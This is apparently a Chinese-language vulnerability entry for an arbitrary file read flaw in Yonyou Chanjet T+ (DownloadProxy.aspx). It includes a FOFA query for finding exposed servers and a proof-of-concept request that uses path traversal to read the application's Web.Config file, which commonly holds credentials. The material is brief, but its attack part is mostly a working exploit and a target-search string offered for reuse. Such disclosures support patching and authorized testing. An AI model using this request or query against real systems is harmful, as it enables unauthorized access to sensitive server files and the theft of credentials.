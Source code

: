 # 用友 畅捷通T+ DownloadProxy.aspx 任意文件读取漏洞

## 漏洞描述

用友 畅捷通T+ DownloadProxy.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感文件

## 漏洞影响

```
用友 畅捷通T+
```

## FOFA

```
app="畅捷通-TPlus"
```

## 漏洞复现

登录页面

![image-20220909104559292](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202209091045361.png)

验证POC

```
/tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../Web.Config
```

![image-20220909104628456](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202209091046535.png)

